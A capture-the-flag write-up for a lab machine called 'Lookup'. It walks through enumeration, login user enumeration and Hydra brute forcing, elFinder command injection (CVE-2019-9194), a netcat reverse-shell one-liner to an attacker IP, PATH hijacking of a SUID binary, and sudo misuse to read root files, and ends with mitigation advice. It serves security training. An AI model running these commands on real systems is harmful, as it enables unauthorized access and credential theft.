# ====================

# LOOKUP CTF WRITEUP

# ====================


# 1. Enumeration

Add `Machine_IP lookup.thm` to /etc/hosts file.

```shell
sudo vim /etc/hosts
```

We will use ***NMAP*** to enumerate open ports on the target machine (we can also use ***Rustscan***).

```shell
sudo nmap -sS -T4 -vv -p- lookup.thm
```

We get two open ports: `SSH` and `HTTP`.

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will check for port version, common scripts and OS information:

```shell
sudo nmap -sV -sC -O -T4 -vv -p 22,80 lookup.thm
```



Our first target would obviously be the Website on port 80, so lets visit it. The only thing we can see on the page is log in form, as we expected from NMAP results:



We can check source code, robots.txt file, sitemap.xml... But nothing interesting there. Our next step would be to enumerate possible dns subdomains and virtual hosts:

```shell
ffuf -u http://FUZZ.lookup.thm -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 0
```

```shell
ffuf -u http://lookup.thm -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.lookup.thm' -fs 0
```

Nothing interesting here (only ***www*** subdomain). Our next hope is to enumerate directory structure on target domain:

```shell
dirsearch -r -u http://lookup.thm
```

I also tried with gobuster enumerating even more file types, but nothing... Only `/login.php`...

OK, let's now test the ***log in form***... When we try to log in with random username and password we get the following message:



But when we try to log in with username “admin” and password “admin”, we get the following message:



Interesting... You noticed the difference?

User ***“admin”*** obviously exists on the system and we get the message that the ***password is wrong***! This gives us possibility to enumerate users on the system because we know the difference in messages!

```shell
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://lookup.thm/login.php -mr "Wrong password" 
```

We got another user ***“jose”***!!!



As this is CTF style machine, we assume that "admin" user is harder to crack, so we will first try to brute force password for user ’jose". We will use famous tool ***Hydra***:

```shell
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm -vV http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong password" -f
```

***VOILA!!! We got the password!!!*** Of course, I covered it... :)



Now, let's try to log in... And... ***Yes! We did it!***



I use “Dark reader” extension for Firefox, so everyrhing is in dark mode, to save my eyes... :) As you can see on the screenshot, we are now on different subdomain, so add it to ***/etc/hosts*** file.

The next thing we would look for is ***program name and version number***, so we can search for exploit. We can see there is a nice icon with question mark...



We got the valuable info:  ***elFinder, Version: 2.1.47***. Before we continue, we can try SSH connection with these credentials, if the password is re-used on the system... This is an easy machine, but not that easy... :)

# 2. Exploitation

When we search for this application and version number, we can clearly see it's ***command injection*** vulnerability.

We have two options:

1. Metasploit framework
2. Manual explot

## 2.1. Manual exploit

This method is recommended if you prepare for OSCP exam, because you need to understand the process. You don't want to waste that one try with MSF on the exam with easy machine...

***CVE: CVE-2019-9194***

https://www.exploit-db.com/exploits/46481

This is Python2 script, so you should convert the code to Python3 if you have problems. When you analize the script, you see that you need the picture file ***SecSignal.jpg*** in the same folder as the script, that will be uploded, and used for command injection.

Make some regular ***.jpg*** file and run the script:

```shell
python3 elfinder_python3.py http://files.lookup.thm/elFinder/
```

We got the shell!!!



This shell was unstable for me, so I transferred the bash reverse shell file (rev.sh) to the attacking machine via python web server:

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc YOUR_IP 4444 >/tmp/f
```

and made a nc listener.

```shell
nc -lvnp 4444
```

When we run the bash reverse shell on target machine we get much better shell which we need to further stabilizate, so it doesn't crash on “CTRL + C” command. You are probably familiar with this stabilization technique:

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```shell
export TERM=xterm 
```

Background the shell with “CTRL + Z”.

```shell
stty raw -echo; fg
```

Now, we have a stable shell, history, autocomplete, arrow keys... It's time for privilege escalation, but first take a look at Metasploit method.

## 2.2. Metasploit method

Open Metasploit and search for “elFinder”.

```
search elfinder
```

You get several results. Use fourth one:



```
use 4
```

Now, show options for this module and change parameters: RHOST, LHOST and LPORT.




```
set RHOST files.lookup.thm
set LHOST <YOUR_IP>
set LPORT 1234
```
Run the exploit:

```
run
```

***We get meterpreter shell!!!***



# 3. Privilege escalation

We can do a lot of things, like searching for user's home directories. We can see user “Think”. We can list his folder, and see ***.password*** file, but we can read it.

We can try “sudo -l”, Cronjobs... But only thing that stands out is ***SUID bit on “/usr/sbin/pwm” file***, which means we can run this command as root:



When we run the command, we can see it calls “id” command to extract the username and user ID (UID) and then reads "/home/user/.passwords" file:



And gets our ID and username: www-data. But, the function “id” is called ***without absolute path***, so we can play with it...

When we search for path of command "id":

```shell
which id
```

We get: `/usr/bin/id`

And if we print our PATH variable, we can see all the folders from which system searches for the commands.

```shell
echo $PATH
```

If we add our folder to the PATH variable, before all other folders, and the command is called ***without absolute path***, system will call the command from our folder. Let's add `/tmp` folder to PATH variable:

```shell
export PATH=/tmp:$PATH
```

When we call `“id”` command, we get user's id and username, from which `/usr/bin/pwm` command gets the data, so we can make our file called `“id”` in `/tmp` directory and put in it what should write for user “think”.

We can check `/etc/password` and see the `id = 1000` and `username is “think”`. So we echo this line to our `“id”` command in `/tmp` folder:

```shell
echo "echo 'uid=1000(think) gid=1000(think) groups=1000(think)'" > id
```

Make it executable:

```shell
chmod +x /tmp/id
```

Now, `/usr/bin/pwm` command will get data from our `“id”` command and we can see contents of `“.password”` file.



Save all the passwords to file `think_passwords`. One of them could be potential password for ***SSH access for user “think”***, so let's try brute force it with Hydra:

```shell
hydra -l think -P think_passwords lookup.thm -vV ssh -f 
```

***VOILA, we have a match!***



Let's try it...

```shell
ssh think@lookup.thm 
```

And ***YES***, we are logged in as user “think”!



Read the flag from `/home/think/user.txt` as a proof of privilege escalation.

## 3.1. Privilege escalation to root user

First thing we can try now, because we have a user password is `“sudo -l”` command, to see what commands we can run as a privileged user:

```shell
sudo -l
```



We have `“/usr/bin/look”` command... Let's examine it...

```shell
think@lookup:~$ /usr/bin/look
usage: look [-bdf] [-t char] string [file ...]
```

OK, it searches for characters or string in a file...Something similar to `grep` command... Great. Let's try it on our user flag, because we know the content:



***It works!*** Now, try it on a root flag, which is most probably in `/root/root.txt` file... We can see the flag format is random letters and numbers, so we can check if any number exist in `/root/root.txt` file. We will make a for loop:

```shell
for i in {1..9}; do sudo look $i /root/root.txt; done
```

***YES!!! We have the root flag!!!***



## 3.2. Beyond the root

We answered all the questions in the room, but we can go even further... :)

We can now extract password hash from `/etc/shadow` file (and try to crack it with John or HashCat), search for ssh private keys (or any other file we want in the system), get to the root account, but I will leave it to you... :)



# 4. Mitigation

To mitigate the risks we had in this CTF, developers should do the following:

1. Don't give users too much information when they log in to the platform. Attacker can use it! Even if the username is correct, but password is wrong, give the same message "Username or password is wrong!".
2. Use strong passwords! Password for user "jose" in this CTF was too weak and could be brute forced using password list from earlier database breaches.
3. Don't give information about software version to the users.
4. When coding, use absolute paths to the functions, so attackers can't manipulate it.

# =========

# ***Stay safe and see ya in the next writeup!***
